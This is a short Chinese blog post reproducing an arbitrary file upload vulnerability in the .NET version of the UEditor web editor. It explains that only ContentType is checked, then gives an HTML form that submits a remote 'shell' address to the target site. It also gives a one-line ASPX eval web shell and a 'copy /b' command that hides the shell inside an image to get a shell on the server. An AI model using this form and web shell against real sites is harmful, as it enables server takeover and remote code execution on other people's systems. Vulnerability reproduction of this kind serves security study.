 ```yaml
---
layout: post
title: Ueditor 漏洞整理
date: 2022-8-24
categories: blog
tags: [漏洞复现,Ueditor]
description: Ueditor


---
```


### Ueditor .net版本任意文件上传

**漏洞原理**
Ueditor中获取图片资源时仅检查ContentType,可造成任意文件上传

**漏洞复现**
利用post直接上传文件到目标网站

```html
<form action="目标站点" enctype="multipart/form-data" method="POST">
 
 <p>shell addr: <input type="text" name="source[]" /></p>
  
 <input type="submit" value="Submit" />
  
</form>
```

以上代码保存为html直接执行，绕过保护机制上传php木马和aspx图片马进行getshell

**ContentType绕过**

1.aspx图片马


```asp
#aspx一句话
<%@ Page Language="Jscript"%><%eval(Request.Item["zhanan"],"unsafe");%>
copy 1.jpg/b + 2.aspx 3.aspx
```


